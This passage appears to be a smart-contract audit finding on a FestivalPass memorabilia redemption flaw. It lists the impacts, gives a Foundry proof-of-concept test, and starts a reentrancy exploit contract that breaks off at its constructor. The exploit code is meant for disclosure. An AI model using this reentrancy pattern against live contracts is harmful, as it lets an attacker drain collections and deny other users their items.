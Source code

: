 **Impact**:
- **DoS**: Legitimate users will be unable to redeem memorabilia from affected collections
- **Economic Disruption**: If memorabilia NFTs have collectible or monetary value, the attacker may extract outsized economic benefits
- **User Trust Degradation**: The unexpected depletion of a collection’s supply undermines user confidence in the platform’s fairness, reliability, and security.

### Proof of Concept
Add the following test and exploit contract, then run the command: `forge test -vv --match-test test_RedeemMemorabilia_DoS`
```solidity
// add this test
function test_RedeemMemorabilia_DoS() public {
    // Setup collection
    vm.prank(organizer);
    uint256 _maxSupply = 5;
    uint256 collectionId = festivalPass.createMemorabiliaCollection(
        "DoS Collection",
        "ipfs://QmDoS",
        50e18,
        _maxSupply,
        true
    );

    // Deplot exploit contract then perform DoS attack
    console.log("User 1 deploys exploit contract and redeems all items from collection");
    vm.prank(user1);
    ReentrancyCollection exploit = new ReentrancyCollection(
        festivalPass, 
        beatToken, 
        collectionId,
        _maxSupply - 1  // logic error in `redeemMemorabilia()` allows minting one less than max supply
    );
    vm.prank(address(festivalPass));
    beatToken.mint(address(exploit), 200e18);

    exploit.exploit();

    // User2 tries to redeem item
    vm.prank(address(festivalPass));
    beatToken.mint(user2, 200e18);

    vm.prank(user2);
    vm.expectRevert("Collection sold out");
    festivalPass.redeemMemorabilia(collectionId);

    console.log("User2 failed to redeem item");
}


// Exploit contract
contract ReentrancyCollection is IERC1155Receiver {
    FestivalPass public _festivalPass;
    BeatToken public _beatToken;
    
    uint256 _colectionId;
    uint256 _maxSupply;
    uint256 _mint_amount;

    constructor(FestivalPass festivalPass, BeatToken beatToken, uint256 colectionId, uint256 maxSupply) payable {
        _festivalPass = festivalPass;
```